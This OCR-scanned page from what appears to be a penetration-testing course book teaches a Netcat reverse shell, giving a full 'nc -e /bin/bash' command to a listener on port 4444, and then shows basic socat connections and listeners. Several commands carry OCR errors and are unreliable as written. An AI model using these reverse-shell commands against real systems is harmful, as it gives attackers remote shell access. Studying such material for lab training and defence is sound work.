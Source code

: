 ```
Subnet Mask . . . . . . . . . . . : 255.255.0.0
Default Gateway . . . . . . . . . : 10.11.0.1
```

**Reverse Shell Scenario**

To get this working, Bob will first set up Netcat to listen for an incoming shell. We will use port 4444 in our example:

```
C:\Users\offsec> nc - nlvp 4444
listening on [any] 4444 ...
```

Now, Alice can send a reverse shell from her Linux machine to Bob. Once again, we use the -e
option to make an application available remotely, which in this case happens to be /bin/bash, the
Linux shell:

```
kali@kali:-$ ip address show eth0 | grep inet
		inet 10.11.0.4/16 brd 10.11.255.255   scope global dynamic eth0

kali@kali:-$ nc -nv 10.11.e.22 4444 -e /bin/bash
(UNKNOWN) [10.11.0.22] 4444 (?) open
```

Once the connection is established, Alfce's Netcat will have redirected /bin/bash input, output and
error data streams to Bob's machine on port 4444, and Bob can interact with that shell:

```
C:\Users\offsec>nc -ntvp 4444
listening on [any] 4444 ..•
connect to (10.11.0.22] from <UNKNOWN) (10.11.0.4) 43482

ip address show eth0 | grep inet
		inet 10.11.0.4/16 brd 10.11.255.255  scope global dynamic eth0
```



### Socat

First, let's connect to a remote server on port 80 using both Netcat and socat:

```
kali@kali:~$ nc <remote server's ip address> 80

kali@kali:~$ socat - TCP4:<remote server's ip address>:80
```

Because root privileges are required to bind a listener to ports below 1024, we need to use sudo
when starting a listener on port 443:

```
kali@kali:~$ sudo nc -lvp localhost 443

kali@kali:-$ sudo socat TCP4-LISTEN:443 STDOUT
```
